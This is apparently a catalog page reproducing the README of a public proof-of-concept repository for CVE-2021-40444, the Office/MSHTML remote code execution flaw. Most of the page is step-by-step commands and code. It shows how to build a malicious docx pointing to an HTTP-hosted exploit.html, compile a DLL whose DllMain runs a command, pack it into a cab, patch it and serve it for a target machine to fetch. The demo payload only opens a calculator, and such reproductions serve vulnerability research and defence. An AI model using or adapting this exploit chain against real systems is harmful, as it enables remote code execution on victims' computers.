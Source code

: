 # CVE-2021-40444

CVE-2021-40444 PoC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/lockedbyte](https://github.com/lockedbyte) |
| Url      | [https://github.com/lockedbyte/CVE-2021-40444](https://github.com/lockedbyte/CVE-2021-40444)                                               |
| Stars    | 1470                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-40444

Reproduce steps for CVE-2021-40444

These reproduction steps are based on some reverse engineering over the sample used in-the-wild: 938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52 (docx file).

## Generating docx

Go to `maldoc/word/_rels/document.xml.rels` and edit the two ocurrences for `http://<HOST>` with the URL to the exploit.html Eg.: `http://127.0.0.1/exploit.html` file.

Generate docx:

`cd maldoc/ ; zip -r maldoc.docx *`

## Generating malicious cab

```
#include <windows.h>

void exec(void) {
	system("C:\\Windows\\System32\\calc.exe");
	return;
}

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,
    DWORD fdwReason, 
    LPVOID lpReserved )
{
    switch( fdwReason ) 
    { 
        case DLL_PROCESS_ATTACH:
           exec(); 
           break;

        case DLL_THREAD_ATTACH:
            break;

        case DLL_THREAD_DETACH:
            break;

        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Exec:

`i686-w64-mingw32-gcc -shared calc.c -o calc.dll`

Generate cab (install lcab `sudo apt-get install lcab`)

`cp calc.dll championship.inf ; mkdir gen/ ; cd gen/ ; lcab '../championship.inf' out.cab`

Copy out.cab into `www/` directory, modify exploit.html to point to `http://127.0.0.1/out.cab`
  
Execute Python script: `patch_cab.py`
  
Finally, setup server:
  
`cd www/ ; sudo python3 -m http.server 80`

# End

Execute now maldoc.docx in target VM

If not working, make sure there is a `championship.inf` file at `C:\Users\<user>\AppData\Temp\`

If file is present but DLL did not get executed, make sure you are opening docx from a folder reached from by exploit.html, like Documents, Desktop, or Downloads.

# More

To automatically resolve the array obfuscation on HTML file use `deobfuscate.py` (already has hardcoded the mutated array)

Anyway, there is already a deobfuscated version: `deob.html`



## Get the content

```
git clone https://github.com/lockedbyte/CVE-2021-40444
cd CVE-2021-40444
```

{% embed url="https://github.com/lockedbyte/CVE-2021-40444" %}

<figure><img src="https://avatars.githubusercontent.com/u/37779789?v=4" alt=""><figcaption><p>lockedbyte</p></figcaption></figure>
